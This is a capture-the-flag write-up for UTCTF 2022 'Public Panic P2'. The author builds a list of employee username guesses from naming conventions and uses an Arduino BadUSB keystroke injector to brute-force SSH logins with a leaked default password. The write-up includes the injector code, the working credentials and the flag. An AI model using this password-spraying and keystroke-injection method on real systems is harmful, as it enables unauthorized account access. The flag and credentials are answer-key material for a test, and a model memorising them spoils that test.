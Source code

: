 # UTCTF 2022 Public Panic P2(Category: Misc)
The challenge is the following,

![Figure 1](img/challenge.png) 


We are told that we should use what we found in [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic) for this challenge. 

In [Public Panic P1](https://github.com/LambdaMamba/CTFwriteups/tree/main/UTCTF_2022/misc/public_panic), we found a picture of the flag on the whiteboard.

![Figure 2](img/flag.png) 

If we look closely, we can also see what seems to be a default password, which is:

`defaultpw5678!` 

![Figure 3](img/defaultpw.png) 



Now our task is to get onto their system using,

`ssh xxx@misc2.utctf.live -p 8622`

Since we have the password, we will need to find an account that uses this default password.

From the previous challenge, I gathered all the following employee information of Sagishi Tech:
- Wade Coldwater (Marketing): https://twitter.com/WadeColdwater
- Debby Uselton (Marketing): https://twitter.com/DebbyUselton
- Claude Castillo (Marketing): https://twitter.com/ClaudeCastill18
- Cliff Shackleford (Marketing): https://twitter.com/CliffShacklefo1
- Sidney Jaggers (Marketing): https://twitter.com/JaggersSidney
- Misty Booker (Marketing): https://twitter.com/MistyBooker99
- Craig Wallace (Chief Information Security Officer): https://twitter.com/CraigWa09526548
- Sherman Kern (CEO): https://twitter.com/kern_sherman
- Neil Cline (Product Manager): https://twitter.com/NeilCline9
- Britt Bryant (CTO): https://twitter.com/BrittBryant18
- Robyn Swanson (Accountant): https://twitter.com/RobynSwanson96



I looked all over their Twitter accounts, but couldn't find any tweets or pictures that could contain hints to their username. I've also tried their Twitter usernames, but that did not work. Therefore, I assumed that their account usernames have to do with their names.

I went to [Active Directory User Naming conventions](https://activedirectorypro.com/active-directory-user-naming-convention/), and saw the following,

![Figure 4](img/namingconvention.png) 

So I assumed that the usernames conventions might be one of the following:

1. Complete first name plus last name
2. Initial of first name and complete last name
3. First three characters of the first name and first three of last name
4. Three random letters and three numbers

I felt that 4 could be ruled out because I couldn't find much information about the random letters and numbers using OSINT for the Sagishi Tech employees.

So I went ahead and constructed a list of the possible usernames for each of the Sagishi Tech members in [usernames.txt](./usernames.txt), which looks like the following:

```
wadecoldwater
wade.coldwater
wade_coldwater
wcoldwater
wadcol

debbyuselton
debby.uselton
debby_uselton
duselton
debuse


claudecastillo
claude.castillo
claude_castillo
ccastillo
clacas


cliffshackleford
cliff.shackleford
cliff_shackleford
cshackleford
clisha


sidneyjaggers
sidney.jaggers
sidney_jaggers
sjaggers
sidjag


mistybooker
misty.booker
misty_booker
mbooker
misboo

craigwallace
craig.wallace
craig_wallace
cwallace
crawal


shermankern
sherman.kern
sherman_kern
skern
sheker


neilcline
neil.cline
neil_cline
ncline
neicli


brittbryant
britt.bryant
britt_bryant
bbryant
bribry


robynswanson
robyn.swanson
robyn_swanson
rswanson
robswa
```

Now, we just need to `ssh xxx@misc2.utctf.live -p 8622` to test all the possible usernames. 
I didn't want to manually ssh all of these usernames, and I wasn't too familiar with tools that automates login attempts on the command line. Luckily, I had a [Arduino BadUSB Keystroke Injector I made some time ago](https://dev.to/lambdamamba/a-badusb-that-is-pretty-useful-making-a-keystroke-injector-in-arduino-that-can-crack-passwords-using-brute-force-3e77) next to me, so I decided to use that.
 
I wrote an Arduino program [brute_ssh.ino](./brute_ssh/brute_ssh.ino), which injects Keystrokes into the command line after turning on the switch. There will be a 5 second delay between each password attempt, and will try the passwords
 `defaultpw5678!`, `defaultpw5678`, and `5678!`. Also, there will be a 2 seconds delay between each username attempt. It will try all 3 passwords for each username in [usernames.txt](./usernames.txt).
A section of [brute_ssh.ino](./brute_ssh/brute_ssh.ino) looks like the following,

```
#include "Keyboard.h"

int switchPin = 9;
int switchstate = 0;

void setup() {
  Keyboard.begin();
  pinMode(switchPin, INPUT);
}

void loop() {
  switchstate = digitalRead(switchPin);
  //Start inputting into the CMD after turning the switch on
  if (switchstate == HIGH){
    Keyboard.println("ssh wadecoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wade.coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wade_coldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);

    Keyboard.println("ssh wcoldwater@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);


    Keyboard.println("ssh wadcol@misc2.utctf.live -p 8622");
    delay(2000);
    Keyboard.println("defaultpw5678!");
    delay(5000);

    Keyboard.println("defaultpw5678");
    delay(5000);

    Keyboard.println("5678!");
    delay(5000);
    ...
```

The following shows the sped up demo of the [Brute Force keystroke injector](https://github.com/LambdaMamba/KeystrokeInjection):

![arduinodemo.gif](img/arduinodemo.gif)

The [full video is on my Youtube](https://youtu.be/C51PT2RJHn4).


I successfully logged into the server using the following credentials:

- Username: `cshackleford`
- Password: `defaultpw5678!`


And once I logged into the server, I did `ls`, and saw that there was a file named `flag.txt`. The contents were,

![Figure 10](img/shackle.png) 

Therefore, the flag is:

`utflag{conventions_knowledge_for_the_win}`

